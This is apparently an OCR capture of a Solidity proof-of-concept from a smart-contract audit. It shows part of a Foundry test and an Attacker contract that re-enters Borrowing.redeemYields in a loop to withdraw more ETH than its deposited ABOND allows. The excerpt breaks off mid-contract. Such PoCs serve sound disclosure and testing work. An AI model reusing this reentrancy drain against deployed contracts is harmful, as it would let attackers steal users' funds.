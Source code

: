 ```solidity
            contractsB.abond.transfer(address(exchange), contractsB.abond.balanceOf(USER)); // funding the "exchange"

            vm.stopPrank();
        }

        vm.warp(block.timestamp + 25920);
        vm.roll(block.number + 2160);

        {
            contractsB.borrow.calculateCumulativeRate();

            attacker.attack();
        }
    }

import {Borrowing} from "../../contracts/Core_logic/borrowing.sol";
import {ABONDToken} from "../../contracts/Token/Abond_Token.sol";

contract Attacker {
    Borrowing borrowing;
    ABONDToken abond;
    address USER_PROVIDER;
    uint256 counter = 0;
    uint256 withdrawedInTheFirstCall = 0;
    uint256 accumulator = 0;
    ExchangeAbond exchange;
  
    constructor(address _borrowing, address _abond, address _userProvider, address _exchange) {
        borrowing = Borrowing(_borrowing);
        abond = ABONDToken(_abond);
        USER_PROVIDER = _userProvider;
        abond.approve(address(borrowing), type(uint256).max);
        exchange = ExchangeAbond(_exchange);
    }

    function attack() public payable {
        if (counter < 10) {
            if (counter == 1) {
                // just to show that balance in the end is greater
                withdrawedInTheFirstCall = address(this).balance;
            }
            counter += 1;
            accumulator += abond.balanceOf(address(this));
            borrowing.redeemYields(address(this), uint128(abond.balanceOf(address(this))));
        } else {
            // checking that the attacker withdrawed more than the allowed by his funds
            if (withdrawedInTheFirstCall >= address(this).balance) {
                revert();
            }
            // here before returning, the attacker should buy the needed ABOND with the withdrawed ETH and USDa amount
            exchange.buyAbond{value: 1e6}(address(this), accumulator); // eth sent is to "buy"

            if (accumulator > abond.balanceOf(address(this))) {
                revert("Not enough ABOND to BURN");
            }

            return;
        }
    }

    receive() external payable {
```